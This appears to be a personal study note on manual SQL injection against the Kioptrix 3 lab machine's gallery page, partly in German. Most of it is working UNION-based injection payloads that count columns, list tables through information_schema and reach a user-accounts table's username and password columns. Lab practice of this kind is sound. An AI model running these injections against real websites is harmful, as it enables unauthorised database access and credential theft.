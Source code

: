 # How to manually do sqlinjection

## Following steps to exploit sql   (example from kioptrix3)


everywhere where id in request try to append '
id = 1'
-->sql error

find out number of columns 

http://example.com/gallery/gallery.php?id=1 order by **1**-- -> works
http://example.com/gallery/gallery.php?id=1 order by **2**-- -> works
http://example.com/gallery/gallery.php?id=1 order by **3**-- -> works
http://example.com/gallery/gallery.php?id=1 order by **4**-- -> works

http://example.com/gallery/gallery.php?id=1 order by **5**-- -> works
http://example.com/gallery/gallery.php?id=1 order by **6**-- -> works

http://example.com/gallery/gallery.php?id=1 order by **7**-- --> ERROR

----> N-1 --> 7 -1 = 6 Columns


Finding Accessible Columns
http://example.com/gallery/gallery.php?id=-1 union all select **1,2,3,4,5,6**--
2
3


zahl 2 und 3 --> Vulnerable Stelle 2 und 3 --> group concat an 2 oder 3. stelle

http://kioptrix.com/gallery/gallery.php?id=-1 union select 1,2,databases(),4,5,6--



http://example.com/gallery/gallery.php?id=-1 union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema=database()--

dev_accounts,gallarific_comments,gallarific_galleries,gallarific_photos,gallarific_settings,gallarific_stats,gallarific_users

http://example.com/gallery/gallery.php?id=-1%20union%20select%201,2,group_concat(table_name),4,5,6%20from%20information_schema.tables%20where%20table_schema=database()--




http://example.com/gallery/gallery.php?id=-1 union select 1,group_concat(column_name),3,4,5,6 FROM information_schema.columns WHERE table_name=CHAR(100, 101, 118, 95, 97, 99, 99, 111, 117, 110, 116, 115)--

id,username,password

```

tags: wget ftp linux

